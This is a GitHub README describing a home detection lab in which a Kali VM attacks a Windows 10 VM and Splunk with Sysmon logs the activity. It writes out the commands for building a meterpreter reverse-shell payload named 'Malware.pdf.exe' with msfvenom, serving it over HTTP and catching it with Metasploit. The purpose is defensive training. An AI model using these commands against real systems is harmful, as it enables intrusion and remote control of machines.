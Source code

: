 Detection Lab Project

## Objective

This Detection Lab project aimed to establish a controlled environment for simulating and detecting cyber attacks. The primary focus was to ingest and analyze logs within a Security Information and Event Management (SIEM) system, generating test telemetry to mimic real-world attack scenarios. This hands-on experience was designed to deepen my understanding of network security, attack patterns, and defensive strategies.

### Lessons Learned

- Proper configuration of virtual machines.
- Understanding of SIEM concepts and practical application.
- Proficiency in analyzing and interpreting SIEM logs.
- Ability to generate telemetry.
- Development of critical thinking and problem-solving skills in cybersecurity.

### Tools Used

- Virtual Box as the hypervisor.
- Splunk (SIEM) with sysmon add-on for log ingestion and analysis.
- Windows 10 (victim) as the target
- Kali Linux (attacker) to generate telemetry for ingestion and analysis

## Steps
1. Using Virtual Box as my hypervisor I created two VMs. Kali Linux to generate the telemetry needed, and Windows 10 to act as the target. On the Windows 10 VM, I installed Splunk along with Sysmon to be used to log and monitor the telemetry. I also disabled Windows Defender and enabled RDP as that will be the targetted port.

2. Configure VMs:
![internal network](https://github.com/user-attachments/assets/f7cc3d1b-939b-4918-ae2d-d0cea180a57c)
_Figure 1: Changed the network setting to Internal Network to ensure a secure environment and isolated communication between multiple VMs especially when executing malware. I do this for both VMs._

![statically configure IP](https://github.com/user-attachments/assets/ab444a7d-4c4c-4692-8ccf-0861d7594f3b)
![Kali manually IP](https://github.com/user-attachments/assets/6964769b-13e3-42f7-a044-4170eaa27a14)
_Figures 2 & 3: I manually configured both VMs' IPs to be on the same network (Windows= 192.168.100.1 | Kali Linux= 192.168.100.2)_

![Cofirming IP change](https://github.com/user-attachments/assets/5e574eae-2efc-4491-a257-e53fb15e187a)
_Figure 4: Check that both VMs' IPs have been successfully changed using ipconfig/ifconfig._

![Windows pinging Kali](https://github.com/user-attachments/assets/1e13cdfd-0f0a-48a1-8708-922e0497f0c2)
_Figure 5: Using Windows 10, I ping the Kali Linux VM to ensure that there is a connection. I did not ping from Kali Linux to Windows as Windows 10's Firewall was blocking ICMP traffic._

3. In Kali Linux I scan for open ports on Windows 10 using the command "nmap -A 192.168.100.1 -Pn"
![nmap showing open port 3389](https://github.com/user-attachments/assets/d919803b-2ec5-4b12-b093-42437b433223)
<br clear="left"/> _Figure 6: Port 3389 is open. This should be open as I had enabled RDP on the Windows 10 machine_

4. Create a basic malware using msfvenom
![msfvenom malware creation](https://github.com/user-attachments/assets/16fce8d8-059c-4609-9960-db3e9afe8518)
<br clear="left"/> _Figure 7: First I used the command "msfvenom -l payload" to see the list of payload options. I will use "windows/x64/meterpreter_reverse_tcp" as the payload. Now using the command "msfvenom -p (chosen payload option) lhost=192.168.100.2 lport=4444 -f exe -o Malware.pdf.exe" will generate our executable malware using the meterpreter reverse TCP payload with the filename of Malware.pdf.exe._

5. Open Metasploit using "msfconsole" to listen in when executing malware and "use exploit/multi/handler" to configure the payload itself.
   ![metasploit payload config](https://github.com/user-attachments/assets/9dd8674c-2419-4a1e-9f49-1a2e7572b2f5)
   <br clear="left"/>_Figure 8: I changed the payload option to "windows/x64/meterpreter/reverse_tcp" and Lhost to Kali Linux's IP_

6. Use the command "Exploit" to begin listening

7. Before going back to Windows 10, open a quick HTTP server on Kali Linux for the victim to download using the command "python3 -m http.server 9999"

8. On Windows 10, open a browser and type in "192.168.100.2:9999" into the URL
  ![download malicious file](https://github.com/user-attachments/assets/ad02f142-3fce-4bcd-8887-5e861178e1a7)
  <br clear="left"/> _Figure 9: Suspicious looking webpage hosting a downloadable file with an executable extension_

9. Open the Terminal as admin and use "netstat -anob" to check for established connection
   ![malware connection established](https://github.com/user-attachments/assets/71984906-1234-4deb-8265-a21708432dc0)
   ![Screenshot 2025-02-18 151544](https://github.com/user-attachments/assets/608acc5b-ccf5-4f46-8a53-3477e813e4fb)
   <br clear="left"/> _Figures 10 & 11: This shows connection has been established on both Windows 10 and Kali Linux machine_

10. Back in Metasploit use the "shell" command to establish a shell on our test machine. To create some telemetry use the command "net user, net localgroup, and ipconfig"

11. Back on Windows 10, login to Splunk and query for Kali Linux's IP using "index=endpoint 192.168.100.2"
    ![RDP port in splunk](https://github.com/user-attachments/assets/f97fb2b5-99b3-4362-89d5-eb5367d2f2bc)
    <br clear="left"/> _Figure 12: I see port 3389, used for RDP. Some questions to ask as an analyst are "Should this machine be attempting to our RDP port?" or "Who does this machine belong to?" Looking at this telemetry, we would not know that this was an Nmap scan which shows the importance of network sensors that may show potential signatures or TCP flags._

12. Next I queried "index=endpoint malware.pdf.exe EventCode=1" and opened the first log (EventCode= 1 is for process creation in sysmon)
   ![Screenshot 2025-02-18 161442](https://github.com/user-attachments/assets/8454fae8-9423-41ca-8240-8f0ac52af670)
  <br clear="left"/> _Figure 13: "process_guid" is a sysmon log that tracks all events of a process. In this case, this should track the process of the reverse shell command from Kali._

13. Finally I query "index=endpoint (process_guid) | table _time,ParentImage,Image,Commandline" to give a visual representation
    ![process GUID net user](https://github.com/user-attachments/assets/f1e5e50c-2f32-4757-b322-366d92e71314)
    <br clear="left"/> _Figure 14: I see the reverse shell and "net user" but not "net localgroup" or "ipconfig". This may be due to issues with data forwarding/parsing or commands not executing properly due to the VM._


